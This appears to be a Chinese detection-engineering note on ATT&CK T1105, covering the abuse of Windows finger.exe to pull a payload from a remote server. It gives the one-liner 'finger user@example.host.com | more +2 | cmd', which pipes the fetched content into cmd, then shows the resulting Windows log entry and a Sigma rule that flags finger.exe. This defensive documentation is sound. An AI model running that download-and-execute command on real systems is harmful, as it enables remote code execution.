 # T1105-win-入口工具转移-# Finger.exe(白名单)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻击的环境中。可以通过命令和控制通道从外部攻击者控制的系统复制文件，用以将工具带入被攻击的网络中，或通过其他工具（如 FTP）的替代协议。 也可以使用 scp、rsync 和 sftp等本地工具在Mac和 Linux上复制文件。

## 测试案例
Finger.exe显示有关正在运行Finger服务或守护程序的指定远程计算机（通常是运行UNIX的计算机）上的一个或多个用户的信息。 远程计算机指定用户信息显示的格式和输出。 不带参数使用，手指显示帮助。

**路径:**
```
-   c:\windows\system32\finger.exe
-   c:\windows\syswow64\finger.exe
```

从远程Finger服务器下载有效载荷(Payload)。 此示例连接到“example.host.com”，询问用户“user”； 结果可能包含由cmd进程执行的恶意shellcode。
```
finger user@example.host.com | more +2 | cmd
```

用例：下载恶意负载
所需权限：用户
操作系统：Windows 8.1、Windows 10、Windows 11、Windows Server 2008、Windows Server 2008R2、Windows Server 2012、Windows Server 2012R2、Windows Server 2016、Windows Server 2019、Windows Server 2022
## 检测日志

windows安全日志

## 测试复现
Windows 10 测试
```
C:\Users\liyang>Finger.exe

显示与运行手指服务的指定系统上某个用户有关
的信息。输出因远程系统而异。

FINGER [-l] [user]@host [...]

  -l        以长列表格式显示信息。
  user      指定需要其信息的用户。省略 user 参数
            将显示与指定主机上所有用户有关的信息。
  @host     指定需要其用户信息的远程系统上的服务器。

C:\Users\liyang>finger user@example.host.com | more +2 | cmd
Microsoft Windows [版本 10.0.18363.418]
(c) 2019 Microsoft Corporation。保留所有权利。
```

## 测试留痕
```log
已创建新进程。

  

创建者主题:

安全 ID: DESKTOP-PT656L6\liyang

帐户名: liyang

帐户域: DESKTOP-PT656L6

登录 ID: 0x47126

  

目标主题:

安全 ID: NULL SID

帐户名: -

帐户域: -

登录 ID: 0x0

  

进程信息:

新进程 ID: 0x2c8

新进程名称: C:\Windows\System32\finger.exe

令牌提升类型: %%1938

强制性标签: Mandatory Label\Medium Mandatory Level

创建者进程 ID: 0xc78

创建者进程名称: C:\Windows\System32\cmd.exe

进程命令行: finger  user@example.host.com
```
## 检测方法/思路
参考Sigma官方规则:
```yml
title: Finger.exe Suspicious Invocation

id: af491bca-e752-4b44-9c86-df5680533dbc

description: Detects suspicious aged finger.exe tool execution often used in malware attacks nowadays

author: Florian Roth, omkar72, oscd.community

date: 2021/02/24

references:

- https://twitter.com/bigmacjpg/status/1349727699863011328?s=12

- https://app.any.run/tasks/40115012-a919-4208-bfed-41e82cb3dadf/

- http://hyp3rlinx.altervista.org/advisories/Windows_TCPIP_Finger_Command_C2_Channel_and_Bypassing_Security_Software.txt

tags:

- attack.command_and_control

- attack.t1105

logsource:

category: process_creation

product: windows

detection:

selection:

Image|endswith: '\finger.exe' #单纯的对进程名称进行检测

condition: selection

falsepositives:

- Admin activity (unclear what they do nowadays with finger.exe)

level: high
```

### 建议
从Sigma给出的规则来看，更多的是对进程和命令行参数进行监测，只要出现其中一个命令参数即告警。
## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

Finger.exe

<https://lolbas-project.github.io/lolbas/Binaries/Finger/>

Finger使用方法

<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/ff961508(v=ws.11)>

Sigma: win_susp_finger_usage

<https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_finger_usage.yml>